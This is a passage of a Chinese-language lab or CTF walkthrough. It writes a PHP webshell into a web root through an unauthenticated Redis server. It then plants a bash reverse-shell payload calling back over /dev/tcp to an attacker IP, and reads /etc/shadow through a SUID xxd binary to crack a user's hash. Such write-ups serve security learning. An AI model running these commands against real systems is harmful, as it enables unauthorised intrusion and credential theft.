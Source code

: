 ```bash
redis-cli -h 10.10.185.22 -p 6379
```

利用 redis 服务的命令进行 rce

```bash
config set dir /var/www/html
config set dbfilename redis.php
set test "<?php phpinfo();?>"
save
```

[![](assets/1706771526-9802d69df8f0ea9fbaeb5c7bdfe3265b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223227-399eef12-beb3-1.png)

之后访问 redis.php 发现有 phpinfo 的界面

之后可以重新写个 shell 进行，

这里我正常写 bash 的 shell 不太行，调用了绝对路径才能弹 shell

```bash
set test “<?php exec(\”/bin/bash -c ‘bash -i > /dev/tcp/10.10.224.19/2333 0>&1’\”); ?>”
```

之后进入 shell，起一个标准的 pythonshell

suid 提权 xxd

先看一下/etc/shadow

```bash
xxd "/etc/shadow" | xxd -r
```

得到 vianka 的哈希，进行 john 爆破

[![](assets/1706771526-22ad0a4b1c8b70c2abc352a2f0f103bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223231-3c3a077a-beb3-1.png)
